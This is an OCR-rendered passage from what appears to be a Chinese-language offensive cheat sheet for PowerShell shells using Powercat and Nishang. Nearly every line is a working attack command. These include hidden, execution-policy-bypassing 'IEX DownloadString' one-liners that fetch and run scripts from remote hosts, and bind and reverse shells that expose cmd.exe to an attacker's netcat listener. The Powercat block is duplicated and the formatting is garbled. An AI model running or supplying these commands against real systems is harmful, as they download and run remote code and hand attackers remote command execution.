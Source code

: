 ```

#### Powercat

```


### 

```
`>powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')``正向连接``靶机:powercat -l -p 8080 -e cmd.exe –v``攻击机:nc 192.168.0.1 8080 –vv``反向连接：``攻击机：nc –l –p 8080 –vv``靶机:powercat –c 192.168.0.1 –p 8080 –v –e cmd.exe``远程执行``>powershell -nop -w hidden -ep bypass "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.0.107/ps/powercat/powercat.ps1'); powercat -c 192.168.0.107 -p 12345 -v -e cmd.exe"``正向连接``靶机:powercat -l -p 8080 -e cmd.exe -v``攻击机:nc 192.168.0.1 8080 -vv``反向连接：``攻击机：nc -l -p 8080 -vv``靶机:powercat -c 192.168.0.1 -p 8080 -v -e cmd.exe`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)


```

#### **Nishang**

##### **Bind shell**

```
靶机：  

```

```


### 

```
`靶机：``>powershell -nop -w hidden -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/nishang/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Bind -Port 12138"``攻击机：``>nc 靶机IP 12138`
```






```

##### **反向shell**

```


### 

```
`攻击机：``>nc -vnlp 9999``靶机：``>powershell -nop -w hidden -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/nishang/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 攻击机IP -port 9999"`
```
